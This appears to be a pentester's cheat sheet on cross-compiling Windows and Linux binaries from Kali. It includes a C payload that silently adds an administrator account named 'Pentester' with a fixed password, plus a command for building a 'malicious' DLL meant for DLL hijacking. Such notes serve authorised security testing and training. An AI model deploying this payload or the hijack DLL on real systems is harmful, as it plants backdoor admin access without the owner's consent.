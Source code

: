 # X-Compiling binaries on kali

## Get cross-compiler for windows

`apt install mingw-w64 `


```c
#include <stdlib.h>

int main ()
{
  int i;
  
  // i for debugging
  i = system ("net user Pentester Password1 /add");
  i = system ("net localgroup administrators Pentester /add");
  
  return 0;
}
```

cross compile for 32 bit
	
`i686-w64-mingw32-gcc foo.c -o foo.exe`


cross compile for 64 bits
	
`x86_64-w64-mingw32-gcc foo.c -o foo.exe`
	
List compilation options
	
	apt-cache search mingw-w64
	
Compile malicious dll

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`

## For Linux

Use another box or directly on kali

if doesnt compile, for older machines add : `-static -static-libgcc -static-libstdc++`

For x64 bit:

gcc -m64 hello.c -o exploit

For x32 bit:

gcc -m32 hello.c -o exploit

